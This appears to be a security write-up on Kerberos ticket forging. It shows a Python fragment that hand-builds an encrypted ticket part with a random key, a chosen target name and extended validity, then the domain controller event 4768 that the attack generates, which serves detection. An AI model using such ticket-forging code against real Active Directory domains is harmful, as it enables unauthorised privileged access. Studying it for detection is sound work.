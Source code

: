 ```python
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])
            elif encTicketPart['key']['keytype'] == EncryptionTypes.aes256_cts_hmac_sha1_96.value:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(32)])
            else:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])

            encTicketPart['crealm'] = self.__domain.upper()
            encTicketPart['cname'] = noValue
            encTicketPart['cname']['name-type'] = PrincipalNameType.NT_PRINCIPAL.value
            encTicketPart['cname']['name-string'] = noValue
            encTicketPart['cname']['name-string'][0] = self.__target

            encTicketPart['transited'] = noValue
            encTicketPart['transited']['tr-type'] = 0
            encTicketPart['transited']['contents'] = ''
            encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            # Let's extend the ticket's validity a lil bit
            encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['authorization-data'] = noValue
            encTicketPart['authorization-data'][0] = noValue
            encTicketPart['authorization-data'][0]['ad-type'] = AuthorizationDataType.AD_IF_RELEVANT.value
            encTicketPart['authorization-data'][0]['ad-data'] = noValue
[...]
```

# Events

The DC generates the following events.

Firt the authentication one because of AS_REQ, Event ID **4768**.

```
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		Administrator
	Supplied Realm Name:	CONTOSO
	User ID:			CONTOSO\Administrator

Service Information:
	Service Name:		krbtgt
	Service ID:		CONTOSO\krbtgt

Network Information:
	Client Address:		::1
	Client Port:		0

Additional Information:
	Ticket Options:		0x40810010
	Result Code:		0x0
	Ticket Encryption Type:	0x12
	Pre-Authentication Type:	2

Certificate Information:
	Certificate Issuer Name:		
	Certificate Serial Number:	
	Certificate Thumbprint:		
```